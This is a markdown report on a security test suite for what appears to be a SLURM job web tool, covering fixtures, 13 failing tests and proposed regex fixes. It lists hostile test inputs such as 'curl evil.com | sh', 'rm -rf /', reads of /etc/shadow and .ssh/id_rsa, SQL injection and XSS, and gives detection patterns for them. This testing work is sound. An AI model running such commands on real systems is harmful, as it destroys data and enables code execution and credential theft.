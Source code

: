 **Key Security Vectors Tested**:
- Path traversal: `../../../etc/passwd`, `${HOME}/.ssh/id_rsa`
- Remote code execution: `curl evil.com | sh`
- Command injection: `rm -rf /`, `eval $(...)`
- SQL injection: `'; DROP TABLE`
- XSS attempts: `<script>alert('xss')</script>`
- Sensitive file access: `/etc/shadow`, `.ssh/id_rsa`

### 3. Shared Test Fixtures

Created comprehensive fixtures in `conftest.py`:
- `temp_dir` - Temporary directory for file operations
- `test_cache` - Isolated cache instance for testing
- `sample_job_info` - Realistic job data
- `sample_array_job_info` - Array job data
- `basic_script` - Clean shell script
- `script_with_watchers` - Script with watcher definitions
- `malicious_script` - Script with dangerous patterns
- `sample_squeue_output` - Realistic SLURM output
- `sample_sacct_output` - Historical job data
- Plus parameterized fixtures for attack vectors

## Known Issues (13 Failing Tests)

### Issues to Fix

1. **Async Test Support** (5 tests)
   - **Issue**: Rate limiter tests need `@pytest.mark.asyncio` decorator
   - **Fix**: Add decorator to async test methods
   - **Severity**: Low (configuration issue)

2. **Field Ordering in Parser** (3 tests)
   - **Issue**: Tests assume specific field order, but parser uses field names
   - **Fix**: Update test data to match actual SACCT_FIELDS order
   - **Severity**: Low (test data issue)

3. **Security Pattern Gaps** (3 tests)
   - **Issue**: Some dangerous patterns not being caught:
     - `rm -rf /*` (with asterisk)
     - `wget ... | bash` (variation)
     - SQL DELETE after comment removal
   - **Fix**: Enhance security patterns in `web/security.py`
   - **Severity**: **High** ⚠️ - Reveals actual security gaps!

4. **Error Sanitization** (2 tests)
   - **Issue**: Username sanitization not working as expected
   - **Fix**: Improve regex in `sanitize_error_message()`
   - **Severity**: Medium

### Quick Fixes Needed

```python
# 1. Add async markers to test_security.py
@pytest.mark.asyncio
async def test_allows_normal_request_rate(self):
    # ... existing code

# 2. Fix security patterns in web/security.py (line ~202)
DANGEROUS_PATTERNS = [
    (r"rm\s+-rf\s+/\*", "Dangerous recursive deletion"),  # Add asterisk variant
    (r"wget\s+.*\|\s*bash", "Remote code execution"),     # Add bash variant
    # ... etc
]

# 3. Update test data to use correct SACCT field order
```